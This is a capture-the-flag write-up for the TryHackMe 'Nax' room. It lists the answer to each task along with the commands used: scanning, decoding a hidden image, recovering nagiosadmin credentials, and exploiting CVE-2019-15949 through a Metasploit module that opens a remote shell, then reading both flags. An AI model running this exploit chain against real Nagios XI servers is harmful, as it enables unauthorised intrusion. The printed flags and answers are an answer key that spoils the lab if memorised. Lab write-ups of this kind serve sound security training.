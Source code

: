 # <div align="center">[Nax](https://tryhackme.com/r/room/nax)</div>
<div align="center"></div>

<div align="center">
<img src="https://github.com/user-attachments/assets/7f2bec20-9377-4463-abf7-12602b548fc3" height="200"></img>
</div>


## Task 1. Flag

Are you able to complete the challenge?

### What hidden file did you find?
```
PI3T.Png
```
* ```nmap -sSCV <IP>```
* ```gobuster dir -u http://<ip>:80/ -w /path-to-wordlist -x txt,php,html```
* ```curl -s http://<IP>```
* ```python3 -c "print(''.join([chr(i) for i in [47, 80, 73, 51, 84, 46, 80, 78, 103]]))"```

### Who is the creator of the file?
```
Piet Mondrian
```
* ```exiftool PI3T.PNg```
### If you get an error running the tool on your downloaded image about an unknown ppm format -- open it with gimp or another paint program and export to ppm format, and try again!
```
No answer needed
```
### What is the username you found?
```
nagiosadmin
```
* ```./npiet /data/tmp/files/PI3T.ppm```
### What is the password you found?
```
n3p3UQ&9BjLp4$7uhWdY
```
### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000
```
CVE-2019-15949
```
* ```searchsploit ngios XI -w```
### Now that we've found our vulnerability, let's find our exploit. For this section of the room, we'll use the Metasploit module associated with this exploit. Let's go ahead and start Metasploit using the command `msfconsole`.
```
No answer needed
```
* ```msfconsole```
* ```search ngios XI```
* ```use 8```
* ```show options```
* ```set LHOST AttackerIP```
* ```set RHOST MachineIP```
* ```set PASSWORD PW```
* ```run```
* ```shell```
* ```cat user.txt```
* ```cat root.txt```
### After Metasploit has started, let's search for our target exploit using the command 'search applicationame'. What is the full path (starting with exploit) for the exploitation module?
```
exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
```
### Compromise the machine and locate user.txt
```
THM{84b17add1d72a9f2e99c33bc568ae0f1}
```
### Locate root.txt
```
THM{c89b2e39c83067503a6508b21ed6e962}
```

